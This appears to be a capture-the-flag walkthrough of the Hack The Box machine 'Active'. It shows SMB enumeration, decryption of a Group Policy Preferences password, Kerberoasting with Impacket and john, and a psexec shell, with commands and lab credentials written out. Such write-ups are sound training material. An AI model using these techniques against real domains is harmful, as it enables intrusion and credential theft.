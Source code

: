 ```yaml
---
title:     "Hack The Box - Active"
tags: [windows,easy,smb,kerberos,psexec]
layout: post
---
```



![73f757b7fcd980b15078520b34f12dd2.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/74a132f10e0d4e0797bf934c20a1a352.png)

We are going to pwn Active from Hack The Box.

Link: <https://www.hackthebox.eu/home/machines/profile/148>

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49169/tcp open  unknown
49171/tcp open  unknown
49182/tcp open  unknown
```
There are many ports open, let's start with `SMB`

## SMB:

I logged in without the password.
```
root@w0lf:~# smbclient -L 10.10.10.100 
Enter WORKGROUP\root's password: 
Anonymous login successful

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
SMB1 disabled -- no workgroup available
```
Let's check what's inside them.

It seems like I only have access to `Replication`
>smbclient //10.10.10.100/Replication

```
root@w0lf:~# smbclient //10.10.10.100/Replication
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 21 16:07:44 2018
  ..                                  D        0  Sat Jul 21 16:07:44 2018
  active.htb                          D        0  Sat Jul 21 16:07:44 2018

		10459647 blocks of size 4096. 4922655 blocks available
```
```
smb: \> cd active.htb
smb: \active.htb\> ls
  .                                   D        0  Sat Jul 21 16:07:44 2018
  ..                                  D        0  Sat Jul 21 16:07:44 2018
  DfsrPrivate                       DHS        0  Sat Jul 21 16:07:44 2018
  Policies                            D        0  Sat Jul 21 16:07:44 2018
  scripts                             D        0  Thu Jul 19 00:18:57 2018

		10459647 blocks of size 4096. 4922655 blocks available
smb: \active.htb\> 
```

I downloaded all the files in the box to my machine using `smbget`.
```
root@w0lf:~/CTF/HTB/Boxes/Active# smbget -R smb://10.10.10.100/Replication/
Password for [root] connecting to //Replication/10.10.10.100: 
Using workgroup WORKGROUP, user root
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI                                                                                                                                            
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI                                                                                                                               
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf                                                                                                   
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml                                                                                                              
smb://10.10.10.100/Replication//active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol                                                                                                                               
smb://10.10.10.100/Replication//active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI                                                                                                                                            
smb://10.10.10.100/Replication//active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf                                                                                                   
Downloaded 8.11kB in 33 seconds
```

I found a Interesting file `Groups.xml` in `\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\`

That file contains username and an encrypted password. It's a GPP Password.
![sample.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/24959afb5d6e44d98d32b8dcaec80e67.png)


There is a tool in kali `gpp-decrypt` to crack this password.
To know more about what is `cpassword` and `GPP`, you can read [here](https://adsecurity.org/?p=2288).
```
root@w0lf:~/CTF/HTB/Boxes/Active/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups# gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
/usr/bin/gpp-decrypt:21: warning: constant OpenSSL::Cipher::Cipher is deprecated
GPPstillStandingStrong2k18
```
So the password is `GPPstillStandingStrong2k18`.

## User:

I logged in as `SVC_TGS : GPPstillStandingStrong2k18`
```
root@w0lf:~/CTF/HTB/Boxes/Active# smbclient //10.10.10.100/Users -U "SVC_TGS"
Enter WORKGROUP\SVC_TGS's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  DR        0  Sat Jul 21 20:09:20 2018
  ..                                 DR        0  Sat Jul 21 20:09:20 2018
  Administrator                       D        0  Mon Jul 16 15:44:21 2018
  All Users                         DHS        0  Tue Jul 14 10:36:44 2009
  Default                           DHR        0  Tue Jul 14 12:08:21 2009
  Default User                      DHS        0  Tue Jul 14 10:36:44 2009
  desktop.ini                       AHS      174  Tue Jul 14 10:27:55 2009
  Public                             DR        0  Tue Jul 14 10:27:55 2009
  SVC_TGS                             D        0  Sat Jul 21 20:46:32 2018

		10459647 blocks of size 4096. 4922639 blocks available
```

Got User Flag:<br/>
![032652c6512aa3dc46398b218303cf90.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/8b2e0f9b19b241a28faf4d16ab74a337.png)

## Kerberosting:

We know port 88 is open, so we can move on to the kerberosting technique.

### Step 1:

First we need to get administrator Kerberos ticket. For that we can use `GetUserSPNs.py` from [impacket](https://github.com/SecureAuthCorp/impacket).
>GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS

![edacd9dbbaaf65bf047828e5b08df799.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/1be013c86ce44243b7ec30f8b61116d6.png)
Now we can crack this using `john`.

### Step 2:

Cracking the ticket using `john`<br/>
![033afd7f0ad9118331aaa540749471a9.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/797ea49a2e2846c4a38b012202d15e11.png)<br/>
And we got the administrator password : `Ticketmaster1968`

## Getting system Shell:

I can get a shell with PSExec which is also from Impacket.
![f56036627caa1deb8121811a74e7e25e.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-active/59b5673a954140508edae991d29f4b71.png)

We own the root!!












